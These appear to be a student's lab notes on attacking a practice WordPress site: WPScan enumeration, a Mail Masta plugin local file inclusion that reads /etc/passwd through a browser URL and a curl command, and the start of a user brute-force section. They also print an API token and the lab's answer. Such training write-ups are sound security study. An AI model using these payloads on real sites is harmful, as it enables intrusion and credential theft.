 Lets carry out a normal enumeration scan, we can do this by using the tag 
`--enumerate or -e`, 
we can also specify what we want enumerated for example
`-e ap` will enumerate plugins and `-e u` will enumerate users. 

**Scan Command**
```bash
wpscan --url http://blog.inlanefreight.com --enumerate --api-token Kffr4fdJzy9qVcTk<SNIP>
```

**api-token:-** `dXuagHGwwpGQXOs9PNuDVU3F1BRLOuI8bZlaa4H47T8`

**The Scan Results**
![[WPScanResults.txt]]

------
## Exploiting a Vulnerable Plugin 

From the WPScan results we have learned that their are a few vulnerable plugins. and an outdated theme. 

the *Mail Masta 1.0* plugin is vulnerable to SQL Injections as well as ==Local File Inclusion==. 

according to this https://www.exploit-db.com/exploits/40290 report. The exploit states that any unauthenticated user can read local files through the path
``/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd``

**In Browser Method**
We can either view this in the browser with this URL: ~
`view-source:http://94.237.58.211:59155/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`
![[Pasted image 20240126012404.png]]

**Curl Method**
We can also use the curl method to get a list of all the users: ~ 
```bash
curl http://94.237.58.211:59155/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd 
```
![[Pasted image 20240126012656.png]]

Q:- *Use the same LFI vulnerability against your target and read the contents of the "/etc/passwd" file. Locate the only non-root user on the system with a login shell.*
Hint:-
```spoiler-block
The user has "/bin/bash" at the end of their entry in the "/etc/passwd" file.
```
A:- **sally.jones**

-------------------

## Attacking WordPress Users - WPScan 

**WPScan** isn't just for scanning for vulnerabilities, we can also use it too brute force a user with wordlist. when we ran the scan it returned results for 3 users 
- *david*
- *admin*
- *roger*
